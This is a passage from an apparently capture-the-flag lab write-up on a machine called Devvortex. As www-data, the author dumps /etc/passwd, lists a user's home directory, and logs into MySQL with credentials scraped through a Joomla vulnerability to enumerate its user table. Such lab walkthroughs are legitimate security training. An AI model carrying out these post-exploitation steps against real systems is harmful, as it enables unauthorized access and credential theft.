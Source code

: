 ```bash
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
logan:x:1000:1000:,,,:/home/logan:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

`cd`ing to `/home/logan`, the `user.txt` within is not readable to us, so instead we should check out the `mysqli` service using the credentials scraped from the Joomla vulnerability.

```bash
www-data@devvortex:/home/logan$ ls -la
total 28
drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 .
drwxr-xr-x 3 root  root  4096 Sep 26 19:16 ..
lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
-rw-r--r-- 1 logan logan  220 Sep 26 19:16 .bash_logout
-rw-r--r-- 1 logan logan 3771 Sep 26 19:16 .bashrc
drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
-rw-r--r-- 1 logan logan  807 Sep 26 19:16 .profile
-rw-r----- 1 root  logan   33 Feb  5 12:53 user.txt
```

```sql
www-data@devvortex:/home/logan$ mysql --user=lewis --password=P4ntherg0t1n5r3c0n## --host=localhost
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \\g.
Your MySQL connection id is 62
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;

# ...

| sd4fg_users                   |
```